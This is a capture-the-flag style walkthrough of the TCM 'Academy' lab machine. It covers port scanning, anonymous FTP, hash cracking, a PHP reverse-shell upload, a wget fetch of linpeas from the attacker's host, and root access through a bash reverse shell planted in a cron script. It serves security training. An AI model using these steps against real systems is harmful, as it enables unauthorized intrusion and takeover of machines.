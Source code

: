 # ACADEMY

It was gotten as I was studying the practical ethical hacking course on TCM ACADEMY. This writeup will be a walkthrough on it. I ran it on a virtual machine to get the IP of the machie.

Advice to beginners just like me, I won't advise you follow this walkthrough back to back as it will not really help you progress well in your journey. You can just come here to check when you get stuck and have tried all possible things you know before.

First we load our machine and get our IP address. For that we use the command <ip a> and we copy our IP address. That will be the target IP. 

![image](https://github.com/Bangis041/academy-/assets/74382096/9c438e88-5791-4089-83fe-921446e9cc60)

We start by scanning for ports to see which ports are opened and vulnerable. For this, I did a nmap scan with SYNTAX: ```nmap -A -p- IP```

![image](https://github.com/Bangis041/academy-/assets/74382096/3d764b7f-820c-41d3-b1d1-34811b658b62)

From the scan above, we can see we had a number of opened ports. Port 21 looked interesting since it's the first and has a content we would like to view and also, anonymous FTP login allowed.

For us to check that out, we use ```ftp IP``` and then we are able to list what files are there.

![image](https://github.com/Bangis041/academy-/assets/74382096/d07f7c83-9256-4046-a6b6-6cf56a21cb1e)

Here we downloaded the note.txt file and saw some intersting information that might be helpful eventually.

After that, we check out the next port that might matter to us. SSH is not it so we move down to port 80 which is a webserver.

After loading the website, there was no much information. we only knew what technology was behind it.

![image](https://github.com/Bangis041/academy-/assets/74382096/53b38ac7-4519-4202-90c5-ca4b81d25de3)

Here we proceed to using a directory buster. I will be using gobuster in this case. SYNTAX: ```gobuster dir -u http://IP -w wordlist_file/path```.

![image](https://github.com/Bangis041/academy-/assets/74382096/bdcf9185-6b31-4618-b9a2-1d6e827a3332)

Afer scanning we were able to get two directories. One interests me more and that is ```/academy```. Why? I saw something that has to do with student in the note.txt file we saw from FTP. Now we search for http://IP/academy. After loading, we get to see a login page that requires us to use a REG NO and password. I did that using the information from the note.txt and i got an error

![image](https://github.com/Bangis041/academy-/assets/74382096/3282bcab-4f23-4414-895c-ded129a73056)

so i looked at the password again and realized it was not a password but a hash. Most students use weak passwords😂. I simply used https://crackstation.net to crack the password and it was "student" so i logged in and said to myself "I'm IN !!!" hehe.

![image](https://github.com/Bangis041/academy-/assets/74382096/64a793e0-cdc9-4e1b-8199-4617a0b93152)

After getting in, the only interesting thing here was that there was a place to upload images. Good news is that not only images an be uploaded there, .php files could also be uploaded. I used that to my advantage to get a reverse shell. I simply searched on google fpr php reverse shell. I copied the code into a file, activated a listener and uploaded the file and I WAS IN ONCE AGAIN😂. It was almost a dead end so i used an automation tool i learned about on https://tryhackme.com/r/room/linprivesc. Just search 'linpeas' on google. I found the script, 

![image](https://github.com/Bangis041/academy-/assets/74382096/2437bec1-dff5-49ae-9557-dd9d001422cb)

i copied and pasted in a .sh file i named linpeas. Now i have to transfer the file to the shell by hosting a webserver ad using wget. I used ```wget http://MY_IP/file```

![image](https://github.com/Bangis041/academy-/assets/74382096/040247fa-141e-4d1f-ab19-828aaee7d1f8). 

Now is time to change the permission to make it executable and then run!!!. 

![image](https://github.com/Bangis041/academy-/assets/74382096/269bb845-d796-4154-81b7-ddd10c3906ee)

We were given what to look out for also...made work easier. While scrolling through, I was able to get this...```* * * * * /home/grimmie/backup.sh``` and also this 👇

![image](https://github.com/Bangis041/academy-/assets/74382096/a4edae2d-e509-426d-990c-a40d80c03c68) and also a password that kept repeating itself in multiple instances. I think now is time i use port 22 which is SSH since we have confirmed that Grimmie is a user and we have a possible password. SYNTAX for SSH: ```ssh user@IP``` and guess what again guys...I'm in🥱. 

![image](https://github.com/Bangis041/academy-/assets/74382096/481ae434-82a8-40db-bdd9-f84eac966f9d)

Now it's looking like it's a dead end after trying ```sudo -l```. I checked the content of backup.sh and realised it's supposed to run at some point. Crontabs did not work so i used ps aux to list processes and we can see it is running as root user. Maybe we are correct.

![image](https://github.com/Bangis041/academy-/assets/74382096/94de302c-2c28-410a-b51c-a7f04ad8f0ee). 

From here, we head over to google.com as it is out best friend to ask it asbout "bash reverse shell one liner" and we see a link on pentestmonkey. 

![image](https://github.com/Bangis041/academy-/assets/74382096/319e4683-a49a-43a1-82a7-01a53a3994f6)

We get a command to use to get a shell...Let's try it and see what comes.

![image](https://github.com/Bangis041/academy-/assets/74382096/17267a78-6af2-4561-85c6-37bd8fb39fd1).

For this to work, we have to set up a listener on our machine and specify the port we are listening on. For me it is 5678.

![image](https://github.com/Bangis041/academy-/assets/74382096/198043da-f221-4a9a-b9eb-19b27c9805e3).

We then wait for it to run, I waited for about 28seconds and I AM IN!!!!!

![image](https://github.com/Bangis041/academy-/assets/74382096/5203fc05-b3bb-44bf-8590-abcfcb7113e3)

Just find the flag and at it out. 

![image](https://github.com/Bangis041/academy-/assets/74382096/b87492b2-0a0e-47d5-b436-275268df8453)

There my friends was how I was able to pwn the ACADEMY machine.
